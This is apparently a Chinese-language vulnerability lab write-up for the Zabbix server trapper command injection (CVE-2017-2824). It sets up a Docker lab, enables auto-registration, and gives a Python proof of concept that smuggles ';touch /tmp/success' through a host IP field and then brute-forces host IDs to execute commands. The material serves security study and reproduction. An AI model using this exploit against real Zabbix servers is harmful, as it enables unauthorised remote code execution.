



Zabbix Server Active Proxy Trapper 命令注入漏洞（CVE-2017-2824）¶
Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。
在Zabbix版本2.0.x 2.0.21之前，2.2.x 2.2.18之前，2.4.x，3.0.x 3.0.9之前，或者3.2.x 3.2.5之前，Zabbix的server-side trapper命令功能存在一处代码执行漏洞，特定的数据包可造成命令注入，进而远程执行代码。攻击者可以从一个Zabbix proxy发起请求，从而触发漏洞。
参考链接：
环境搭建¶
执行如下命令启动一个完整的Zabbix 3.0.3环境，包含Web端、Server端、1个Agent和Mysql数据库：
docker compose up -d
命令执行后，执行docker compose ps查看容器是否全部成功启动，如果没有，可以尝试重新执行docker compose up -d。
利用该漏洞，需要你服务端开启了自动注册功能，所以我们先以管理员的身份开启自动注册功能。使用账号密码admin/zabbix登录后台，进入Configuration->Actions，将Event source调整为Auto registration，然后点击Create action，创建一个Action，名字随意：

第三个标签页，创建一个Operation，type是"Add Host"：

保存。这样就开启了自动注册功能，攻击者可以将自己的服务器注册为Agent。
漏洞复现¶
使用这个简单的POC来复现漏洞：
import sys
import socket
import json
import sys
def send(ip, data):
conn = socket.create_connection((ip, 10051), 10)
conn.send(json.dumps(data).encode())
data = conn.recv(2048)
conn.close()
return data
target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))
for i in range(10000, 10500):
data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
if data and b'failed' not in data:
print('hostid: %d' % i)
print(data)
这个POC比较初级，请多执行几次，当查看到如下结果时，则说明命令执行成功：

进入server容器，可见/tmp/success已成功创建：

有兴趣的同学可以对这个POC进行改进，提交Pull Request。